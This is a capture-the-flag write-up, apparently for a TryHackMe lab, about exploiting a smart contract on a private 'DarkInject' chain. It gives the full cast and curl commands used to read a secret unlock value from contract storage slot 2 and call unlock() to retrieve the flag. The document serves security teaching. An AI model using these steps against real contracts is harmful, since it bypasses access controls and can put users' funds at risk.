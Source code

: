 The goal of this project was to audit and exploit a vulnerability in a smart contract deployed on the DarkInject blockchain in order to gain access to a hidden flag. This was done to demonstrate potential risks and weaknesses in Web3 applications and to improve the overall security of blockchain ecosystems.

Description (from a first-person perspective):
I discovered a smart contract deployed on a private network called DarkInject. Initial reconnaissance suggested that it might have a vulnerability related to storage layout. I decided to investigate further. Here's a step-by-step account of how I exploited it and retrieved the flag.

Steps and Explanation:
1. Connecting to the RPC and API
RPC_URL=http://10.10.204.8:8545
API_URL=http://10.10.204.8
I set environment variables to interact with the blockchain through RPC and a web API.

2. Retrieving Private Key, Contract Address, and Player Address

PRIVATE_KEY=$(curl -s ${API_URL}/challenge | jq -r ".player_wallet.private_key")
CONTRACT_ADDRESS=$(curl -s ${API_URL}/challenge | jq -r ".contract_address")
PLAYER_ADDRESS=$(curl -s ${API_URL}/challenge | jq -r ".player_wallet.address")
Using the API, I fetched the player's wallet details and the smart contract address needed to interact with the system.

3. Checking if the Challenge Is Solved

is_solved=`cast call $CONTRACT_ADDRESS "isSolved()(bool)" --rpc-url ${RPC_URL}`
echo "Check if is solved: $is_solved"
At this stage, the result was false, confirming the challenge had not yet been solved.

4. Analyzing Contract Storage

cast storage $CONTRACT_ADDRESS 2 --rpc-url $RPC_URL
I examined storage slot 2, which returned:

0x000000000000000000000000000000000000000000000000000000000000014d
In hexadecimal, 0x14d equals 333. This looked like a potential "unlock key".

5. Unlocking the Contract

cast send $CONTRACT_ADDRESS "unlock(uint256)" 333 --rpc-url $RPC_URL --private-key $PRIVATE_KEY --legacy
I sent a transaction calling the unlock() function with this value. The transaction succeeded (status: 1 (success)).

6. Verifying if the Challenge Was Solved

cast call $CONTRACT_ADDRESS "isSolved()(bool)" --rpc-url $RPC_URL
The contract now returned true, indicating successful exploitation.

7. Retrieving the Flag

cast call $CONTRACT_ADDRESS "getFlag()(string)" --rpc-url $RPC_URL
Flag:
"THM{web3_h4ck1ng_code}"
📌 Conclusion:
I successfully analyzed and exploited the contract by reading from Ethereum storage. The key to solving the challenge was reading slot 2, which contained the magic number 333. Calling the unlock() function with this value unlocked the contract and revealed the flag.

